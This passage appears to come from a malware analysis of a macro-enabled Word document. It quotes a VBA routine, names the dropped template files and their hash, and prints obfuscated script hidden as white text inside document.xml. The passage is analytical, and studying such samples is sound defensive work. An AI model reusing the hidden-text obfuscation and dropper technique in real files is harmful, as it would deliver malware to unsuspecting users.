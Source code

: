 ```vb
    ' Creates a new file with the name passed to this sub containing a text-only copy of the document.xml file
    ActiveDocument.SaveAs FileName:=tcv, 
                        FileFormat:=wdFormatText, 
                        [...]
                        AddToRecentFiles:=False,
                        [...]
                        InsertLineBreaks:= False, 
                        [...]
                        LineEnding:=wdCRLF
End Sub
```

The dropped files are stored in the Microsoft Templates folder located at `C:\Users\<user>\AppData\Roaming\Microsoft\Templates` and are called `2angola.dot` and `2angola.dotu`. The hash of these files is: `30D8F01A2986C4DD0F968674ED337A30F758B3A5348A4E0C824A5722A3BDB923`. The `document.xml` file (from which those 2angola files are created from) is the default document file which is loaded by word on initial startup. In that file all the text you are writing is stored in. Opening that file shows us this:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" [...]>
<w:body>[...]
<pic:pic>[...]
    <a:blip r:embed="rId7">
        <a:extLst><a:ext uri="{28A0092B-C50C-407E-A947-70E740481C1C}">[...]</a:ext></a:extLst>
    </a:blip>
</pic:pic>[...]
<w:color w:val="FFFFFF" w:themeColor="background1"/>[...]

AmUzEmyself86ko='undefined';AmUzEdoom2ko='rRXqIoM99qYTh4PIQAbCrL69sPzNAHyA9k4mgQWlefWUcKDqQWNNHpoobaRQ We qddrkZhBxnyeu2sPa75qWqUmmwsUZtut3 1tXtqRybDQBGWMCDBIswPoong0iKskmOtxDGv0 Z6Q Hy7Yh8yNxB z hm37Cq1A3ts9Tzzt8k86TxN5IVNb6QHWXEFRZdMymNrGPtLT7YRMyygQ5N340rSkSu1qTEsquXceIGeLwvwwmY0LIYSiw 9bFF pCizkqqDLKDcikvAB5K0vaWzX09xRvkQzD0QvUAgCWZFa qyhH2uBhlyS7UOhN8q8ySRrNtsuRA2hMZmVI0AvGHbHYR5cAXl';AmUzEconducted53ko='undefined';AmUzEhatred64ko='undefined';AmUzEthat71ko='undefined';AmUzEwell57ko='undefined';AmUzEagain15ko='undefined';AmUzEfilled81ko='undefined';AmUzElessen33ko='undefined';AmUzEdiscussion57ko='undefined';AmUzEofalliances20ko='undefined';AmUzEunderstand93ko='undefined'; gunsder=['fr'+'om']+''; function xxqneol(etsfhis,vqjpvi) {try{  jiucome_8(etsfhis,vqjpvi); }catch(e){ if (true &amp;&amp; vqjpvi!='h') {return 1;} else { return 
```

We can see the embedded image here with the `<r:embed>` ID `rId7`. In the `/word/_rels/document.xml.rels` file we can find the actual path to the image in the `.docm` file, which is `media/image1.png`. And this is actually just the image file we can see when opening the Word file. A bit further down this article there is a screenshot of it.
So as you might have imagined, the dropped `2angola.dot(u)` files hence contain the following:
